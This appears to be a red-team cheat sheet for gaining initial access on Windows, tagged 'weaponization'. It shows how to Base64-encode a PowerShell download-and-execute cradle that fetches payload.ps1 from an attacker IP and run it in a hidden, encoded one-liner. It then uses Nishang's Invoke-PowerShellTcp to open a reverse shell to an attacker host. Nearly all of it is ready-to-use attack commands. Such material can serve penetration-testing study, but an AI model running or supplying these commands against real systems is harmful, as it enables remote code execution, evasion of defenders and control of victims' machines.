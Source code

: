 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-land
  - windows
---
```

# Manual

> [!INFO] [Line Maximum Limit](https://devblogs.microsoft.com/scripting/increase-powershell-command-history-to-the-max-almost/)
> The maximum length of lines is total of 32768 when executing through Windows PowerShell or Windows Terminal.

## 01 - Base64 Encoded

Encode the string of commands.

```
$ string="IEX ((New-Object Net.WebClient).DownloadString('http[s]://<IP>/payload.ps1'))"

$ iconv -t UTF-16LE <<< $string | base64 -w 0

$ iconv -t UTF-16LE <<< $string | basenc -w 0 --base64

$ iconv -t UTF-16LE <<< $string | openssl enc -a -e -A

$ iconv -t UTF-16LE <<< $string | openssl enc -base64 -A
```

Then execute it in a one-liner.

```
C:\> powershell.exe -nop -NonI -Nologo -w hidden -enc <base64_encoded>
```

## 02 - Generate Payloads

### 2.1 - Reverse Shells

#### 01 - Nishang

##### 1.1 - TCP Protocol

```
PS C:\> IEX (New-Object System.Net.WebClient).DownloadString('https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1')

Invoke-PowerShellTcp -Reverse -IPAddress <attacker_IP> -Port <attacker_PORT>
```
